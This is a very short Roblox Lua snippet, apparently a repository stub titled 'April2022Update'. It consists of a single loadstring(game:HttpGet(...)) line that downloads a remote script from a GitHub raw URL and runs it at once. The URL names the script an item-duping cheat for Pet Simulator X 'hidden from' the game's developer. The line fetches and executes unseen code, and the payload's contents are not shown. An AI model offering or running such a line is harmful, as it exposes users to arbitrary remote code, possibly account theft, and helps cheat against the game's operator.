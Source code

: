 # April2022Update


loadstring(game:HttpGet(("https://raw.githubusercontent.com/DupeExistsPetSimX/April2022Update/main/DupingScriptHiddenfromPreston"), true))()

